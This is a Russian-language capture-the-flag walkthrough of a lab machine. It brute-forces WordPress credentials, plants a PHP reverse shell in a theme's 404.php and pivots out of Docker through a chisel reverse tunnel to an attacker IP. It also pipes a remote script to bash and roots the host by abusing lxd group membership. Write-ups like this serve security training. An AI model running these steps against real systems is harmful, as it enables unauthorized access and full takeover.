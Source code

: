# For Business Reasons

:white_check_mark:  [**Chisel_ip_and_port**](#Chisel_ip_and_port)

:white_check_mark:  [**Lxd-alpine(privesc)**](#lxd-alpine(privesc))
___

## Enumeration
Сканируем ip командой:
```
nmap -p- -sC -sV --open business.thm
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: MilkCo Test/POC site &#8211; Just another WordPress site
|_http-generator: WordPress 5.4.2
```

Главная страница **business.thm**:

![](../assets/For_Business_Reasons/1.png)

Мы можем заметить, что это страница wordpress. Просканируем ее с помощью wpscan, чтобы найти возможные имена пользователей.

```
wpscan --url business.thm --enumerate u
```

![](../assets/For_Business_Reasons/2.png)

Мы нашли имя пользователя, попробуем сбрутить пароль этого пользователя.

```
wpscan --url business.thm --usernames sysadmin --passwords /usr/share/wordlists/rockyou.txt
```

![](../assets/For_Business_Reasons/3.png)

Теперь, когда мы имеем данные от аккаунта, перейдем на страницу /wp-admin/ и залогинимся.

![](../assets/For_Business_Reasons/4.png)

С помощью Theme Editor мы можем получить доступ к машине.

Перейдем в меню Appearance -> Theme Editor.

![](../assets/For_Business_Reasons/5.png)

Изменим тему на Twenty Seventeen и перейдем к изменению страницы 404.php. Запишем сюда php-reverse-shell и сохраним страницу.

![](../assets/For_Business_Reasons/6.png)

Запускаем слушатель и открываем наш shell(http://business.thm/wp-content/themes/twentyseventeen/404.php). Получаем доступ к машине.

![](../assets/For_Business_Reasons/7.png)

Мы можем обнаружить данный скрипт /var/www/html/start_container.sh, который говорит нам о том, что мы находимся в докере.

![](../assets/For_Business_Reasons/8.png)

## Pivoting
Для дальнейшего продвижения, просмотрим все сетевые адреса хоста.

```
hostname -I
```

![](../assets/For_Business_Reasons/9.png)

Для того чтобы просканировать их, закинем бинарник nmap на машину при помощи curl. Просканируем все ip-адреса. Наибольший интерес для нас представляет 172.18.0.3
```
./nmap -sn 172.18.0.3/24
```

![](../assets/For_Business_Reasons/10.png)

Теперь нам необходимо выяснить, какие порты открыты на данных ip-адресах. Для этого будем использовать netcat. Закинем его инарник на машину. 

Так как оболочка не стабилизирована, будем проверять ip-адрес на возможные порты следующим образом.

```
./nc -zvn 172.18.0.1 22 80
```

![](../assets/For_Business_Reasons/11.png)

У нас есть порт 22 - ssh. Нам необходимо перебросить его на атакующую машину, чтобы иметь доступ к ssh, т.к. ssh нет в докере.

<a name="Chisel_ip_and_port"></a>

На атакующей машине установим chisel.
```
curl http://i.jpillora.com/chisel! | bash
```

Затем перекинем chisel в /tmp атакуемой машины.

Теперь от нас требуется выполнение двух шагов:
    
    1. Запустить chisel на атакующей машине: ./chisel server --reverse -p 6789
    2. Запустить chisel на атакуемой машине: ./chisel client 10.8.61.235:6789 R:2222:172.18.0.1:22

![](../assets/For_Business_Reasons/12.png)

![](../assets/For_Business_Reasons/13.png)

Теперь у нас есть доступ к требуемому ip. Подключимся по ssh.
```
ssh sysadmin@127.0.0.1 -p 2222
```

![](../assets/For_Business_Reasons/14.png)

<a name="Lxd-alpine(privesc)"></a>

Просмотрим информацию о данном пользователе, командой **id**.

![](../assets/For_Business_Reasons/15.png)

Мы можем видеть, что пользователь принадлежит группе lxd.

Чтобы воспользоваться этой уязвимостью, нам нужно создать образ для lxc, импортировать этот образ, а затем инициализировать его в новом контейнере.

На атакуемой машине:
```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

Перебрасываем полученный архив на атакуемую машину. Затем:
```
lxc image import ./alpine-v3.16-x86_64-20220815_2100.tar.gz --alias myimage

lxc image list

lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

![](../assets/For_Business_Reasons/16.png)

Выполнив данные действия, получаем root. Флаг мы можем найти в директории /mnt/root/root.
